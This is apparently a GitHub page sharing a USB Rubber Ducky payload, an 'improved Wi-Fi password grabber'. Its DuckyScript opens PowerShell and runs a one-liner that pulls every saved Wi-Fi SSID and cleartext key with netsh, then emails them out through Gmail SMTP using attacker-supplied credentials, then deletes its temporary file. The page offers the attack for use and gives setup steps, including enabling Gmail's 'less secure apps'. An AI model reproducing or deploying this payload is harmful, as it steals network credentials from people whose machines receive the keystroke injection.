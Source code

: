 ## Slightly improved version of [WiFi password grabber](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber) by Siem

### Make sure to change "YOUREMAIL@gmail.com" with your G-Mail, and "YOURPASSWORD" with your password

### Code:
```
REM Title       : Improved Wi-Fi Password Grabber
REM Author      : Jacob Collins
REM Version     : 3
REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.
REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!), and "YOURPASSWORD" (without quotes) with your password.
REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps
DELAY 1000
REM --------> Open the run dialog
GUI r
DELAY 500
REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.
STRING cmd /c powershell && exit
DELAY 500
REM --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com
STRING $a=0;ForEach($b in ((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":")){if($a -eq "1") {(netsh wlan show profile $b.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$a++}else{$a=1}};$c=New-Object Net.Mail.SmtpClient("smtp.gmail.com",587);$c.EnableSsl=$true;$c.Credentials=New-Object System.Net.NetworkCredential("YOUREMAIL@gmail.com","YOURPASSWORD");$d=New-Object System.Net.Mail.MailMessage;$d.From="YOUREMAIL@gmail.com";$d.To.Add("YOUREMAIL@gmail.com");$d.Subject=($env:UserName+"@"+$env:UserDomain);$d.Body=(Get-Content a|out-string);$c.Send($d);Remove-Item a;exit
```
### Suggestions
Please feel free to leave any suggestions, like code minimization, fixes etc.

Suggestion: It lacks 1 character